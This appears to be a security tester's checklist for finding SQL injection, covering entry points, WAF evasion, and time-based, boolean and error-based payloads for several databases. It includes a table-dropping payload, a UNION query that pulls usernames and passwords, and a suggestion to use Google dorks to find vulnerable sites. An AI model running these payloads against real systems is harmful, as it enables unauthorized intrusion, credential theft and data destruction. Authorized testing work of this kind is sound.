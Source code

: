 1.  **Entry Point Detection**
    - [ ] Identify potential SQL injection entry points in the application.
    - [ ] Check input fields, URL parameters, headers, cookies, and other data entry points.

2.  **Testing Techniques**
    - [ ] Test with simple characters (e.g., ', ", ;, --, /\* \*/) to see basic SQL injection response.
    - [ ] Use multiple encoding layers (e.g., URL encoding, Base64) to assess filter bypass capabilities.
    - [ ] Try merging characters to form unexpected SQL queries (e.g., `' OR 1=1 --`).
    - [ ] Perform logical testing to see how the application handles SQL logic (e.g., `AND 1=1`, `OR 1=1`).
    - [ ] Include special characters (e.g., @, #, $, ^, \*, (, )) to test input sanitization processes.
    - [ ] Test for second-order SQL injection by modifying input that is later processed in SQL queries.

3.  **Detection and Evasion**
    1. Automated SQL Injection Detection & WAF Evasion Techniques 
        - [ ] Run SQL injection scanner on all requests to detect vulnerabilities.
        - [ ] Attempt to bypass Web Application Firewalls (WAF) with advanced techniques:
        - [ ] Using Null byte before SQL query.
        - [ ] Using SQL inline comment sequence (--, /\* \*/).
        - [ ] Employ URL encoding to obfuscate malicious inputs.
        - [ ] Alternate between changing cases (uppercase/lowercase) to evade case-sensitive filters.
        - [ ] Use SQLMAP tamper scripts to automate evasion tactics.
        - [ ] Use time delays and error messages to infer SQL injection (e.g., `AND 1=BENCHMARK(10000000,MD5(1))`).
    2. Time-Based SQL Injection:
        - [ ] Oracle: Test with dbms_pipe.receive_message(('a'), 10).
        - [ ] Microsoft: Use WAITFOR DELAY '0:0:10'.
        - [ ] PostgreSQL: Execute SELECT pg_sleep(10).
        - [ ] MySQL: Perform SELECT sleep(10).
    3. Conditional Delays for Blind SQL Injection:
        - [ ] Oracle: SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'), 10) ELSE NULL END FROM dual.
        - [ ] Microsoft: IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'.
        - [ ] PostgreSQL: SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END.
        - [ ] MySQL: SELECT IF(YOUR-CONDITION-HERE, sleep(10), 'a').
    4. Boolean-Based SQL Injection:
        - [ ] Oracle: SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'true' ELSE 'false' END FROM dual.
        - [ ] Microsoft: IF (YOUR-CONDITION-HERE) SELECT 'true' ELSE SELECT 'false'.
        - [ ] PostgreSQL: SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'true' ELSE 'false' END.
        - [ ] MySQL: SELECT IF(YOUR-CONDITION-HERE, 'true', 'false').
            
    5. Error-Based SQL Injection
        - [ ] General: Inject payloads to generate SQL errors (e.g., `' OR 1=1 --, "`).

    6. General SQL Injection Testing
        - [ ] Test SQL Injection on authentication forms (`login`, `registration`).
        - [ ] Test SQL Injection on the search bar.
        - [ ] Test SQL Injection on editable characteristics (`profile updates`, `comments`).
        - [ ] Use tools like `SQLmap`, `Burp Suite`, or `Hackbar`.
        - [ ] Use Google dorks to find the SQL keywords and potential vulnerable sites.
        - [ ] Test all types of SQL Injection (`GET`, `POST`, `COOKIE`, `HEADER`).
        - [ ] Try SQL Injection with various methods like null bytes, URL encoding, case changes, and tamper scripts.
        - [ ] Try SQL Injection with SQL Time delay and conditional delays.
        - [ ] Try Boolean-based, Time-based, and Error-based SQL Injection techniques.
        - [ ] Test for out-of-band SQL injection to capture data sent to an external server.

- [ ] **Techniques**
    - [ ] Test for stacked queries (e.g., ; `DROP TABLE users;--`).
    - [ ] Check for union-based SQL injection (e.g., `UNION SELECT NULL, username, password FROM users--`).
    - [ ] Test for subqueries and nested queries.
    - [ ] Assess the application's use of parameterized queries and stored procedures.
    - [ ] Verify if error handling reveals sensitive database information.
    - [ ] Perform fuzz testing on all SQL query parameters.